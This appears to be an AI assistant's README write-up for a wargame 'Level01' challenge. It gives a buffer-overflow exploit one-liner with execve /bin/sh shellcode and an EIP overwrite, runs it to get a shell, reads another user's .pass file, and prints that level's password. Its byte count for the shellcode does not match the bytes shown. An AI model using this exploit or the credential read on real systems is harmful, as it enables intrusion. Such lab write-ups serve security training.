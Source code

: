Here's the **revised README.md** with your requested changes, including the custom filename and modified padding:

---

# Level01 Challenge Solution

## Exploit Summary
This exploit bypasses authentication and spawns a shell by:
1. Passing the username check with `"dat_wil"`
2. Injecting shellcode into memory
3. Overflowing the password buffer to hijack execution

## Modified Exploit Command
```python
python -c "print 'dat_wil' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\n' + 'B'*80 + '\x47\xa0\x04\x08'" > /tmp/abderrafie
```

### Key Changes:
1. **Output File**: `/tmp/abderrafie` (formerly `/tmp/inj01`)
2. **Padding**: Replaced cyclic pattern with `'B'*80` for simplicity

## Components Explained

| Part | Content | Purpose |
|------|---------|---------|
| Username | `dat_wil` | Bypasses the username check |
| Shellcode | `\x6a\x0b\x58...` | Spawns `/bin/sh` (23 bytes) |
| Newline | `\n` | Separates username/password inputs |
| Padding | `'B'*80` | Fills buffer until EIP overwrite |
| EIP | `\x47\xa0\x04\x08` | Jumps to shellcode at `0x0804a047` |

## Execution
```bash
cat /tmp/abderrafie - | ./level01
```
- **Expected Result**: Opens a shell with `level02` privileges

## Post-Exploit
Retrieve the password for the next level:
```bash
cat /home/users/level02/.pass
```

---

### the password for the next level is:
```
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```


